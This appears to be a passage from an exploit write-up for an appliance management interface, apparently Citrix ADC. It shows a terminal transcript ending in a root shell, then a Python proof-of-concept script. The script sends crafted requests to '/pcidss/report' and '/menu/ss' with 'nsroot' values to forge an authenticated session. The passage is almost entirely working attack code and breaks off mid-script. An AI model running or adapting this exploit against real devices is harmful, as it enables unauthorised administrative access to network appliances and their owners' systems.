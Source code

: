     Password:
    Last login: Sun Jul 12 20:52:27 2020 from 47.75.37.35
     Done
    > shell
    Copyright (c) 1992-2013 The FreeBSD Project.
    Copyright (c) 1979, 1980, 1983, 1986, 1988, 1989, 1991, 1992, 1993, 1994
        The Regents of the University of California. All rights reserved.

    root@localhost#

### poc

3.png

    #!/usr/bin/env python

    import requests
    import sys
    import string
    import random
    import json
    from urllib.parse import quote



    requests.packages.urllib3.disable_warnings()

    def random_string(length=8):
        chars = string.ascii_letters + string.digits
        random_string = ''.join(random.choice(chars) for x in range(length))
        return random_string

    def create_session(base_url, session):
        url = '{0}/pcidss/report'.format(base_url)

        params = {
            'type':'allprofiles',
            'sid':'loginchallengeresponse1requestbody',
            'username':'nsroot',
            'set':'1'
        }

        headers = {
            'Content-Type':'application/xml',
            'X-NITRO-USER':random_string(),
            'X-NITRO-PASS':random_string(),
        }

        data = '<appfwprofile><login></login></appfwprofile>'
        proxies = {"http":"http://127.0.0.1:8080/"}
        session.post(url=url, params=params, headers=headers, data=data, verify=False,proxies=proxies)
        return session

    def fix_session(base_url, session):
        url = '{0}/menu/ss'.format(base_url)

        params = {
            'sid':'nsroot',
            'username':'nsroot',
            'force_setup':'1'
        }
        proxies = {"http":"http://127.0.0.1:8080/"}
        session.get(url=url, params=params, verify=False,proxies=proxies)
